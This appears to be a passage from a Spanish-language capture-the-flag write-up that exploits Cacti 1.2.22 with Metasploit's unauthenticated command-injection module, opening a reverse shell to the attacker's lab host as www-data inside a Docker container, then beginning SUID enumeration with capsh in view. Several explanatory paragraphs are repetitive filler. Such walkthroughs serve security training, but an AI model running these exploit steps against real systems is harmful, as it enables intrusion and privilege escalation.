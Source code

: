 ```javascript
LHOST => 10.10.14.155
```
Configuramos los parámetros RHOSTS, RPORT y LHOST, y procedemos a ejecutar el exploit en varias ocasiones, ya que su funcionamiento no es siempre consistente.

Al poner en marcha el exploit, se requiere establecer los valores adecuados para los parámetros RHOSTS (host remoto), RPORT (puerto remoto) y LHOST (host local). Estos parámetros permiten al exploit interactuar con el sistema objetivo de manera precisa y establecer una conexión efectiva.

Sin embargo, debido a la naturaleza de las vulnerabilidades y las diferentes configuraciones de los sistemas objetivo, es posible que el exploit no funcione de manera consistente en todos los intentos. Esto puede deberse a factores como medidas de seguridad adicionales, actualizaciones del software o configuraciones específicas del sistema.

Por lo tanto, es necesario ejecutar el exploit varias veces, realizando ajustes y modificaciones necesarios en los parámetros y en la técnica utilizada. Este enfoque de prueba iterativa nos permite explorar diferentes opciones y abordajes hasta encontrar la combinación adecuada que logre el éxito en la explotación de la vulnerabilidad.

En resumen, al poner en práctica los parámetros RHOSTS, RPORT y LHOST y ejecutar el exploit repetidamente, estamos adoptando un enfoque adaptativo para superar las posibles inconsistencias y dificultades que puedan surgir durante la explotación de la vulnerabilidad en cuestión.

```javascript
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.155:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Command Stager progress - 100.00% done (868/868 bytes)

whoami
www-data
```
Como podemos ver nos hemos conectado a un contenedor Docker y no a la máquina principal.

```javascript
www-data@50bca5e748b0:/var/www/html$ hostname -I
hostname -I
172.19.0.3 
www-data@50bca5e748b0:/var/www/html$ 
```
Investigamos los permisos SUID y nos resulta interesante el comando capsh.

Cuando hablamos de "mirar los permisos SUID", nos referimos a examinar los archivos y programas que tienen habilitado el bit SUID (Set User ID), lo cual les otorga privilegios especiales cuando son ejecutados por usuarios regulares. Los archivos con permisos SUID permiten a los usuarios ejecutarlos con los privilegios del propietario o del grupo propietario del archivo, en lugar de sus propios privilegios.

Durante nuestra exploración, nos llama la atención específicamente el comando capsh. Este comando es interesante debido a su capacidad para gestionar los atributos de seguridad relacionados con las capacidades del núcleo en sistemas Linux. Las capacidades del núcleo permiten un mayor control y gestión de los privilegios en un sistema operativo.
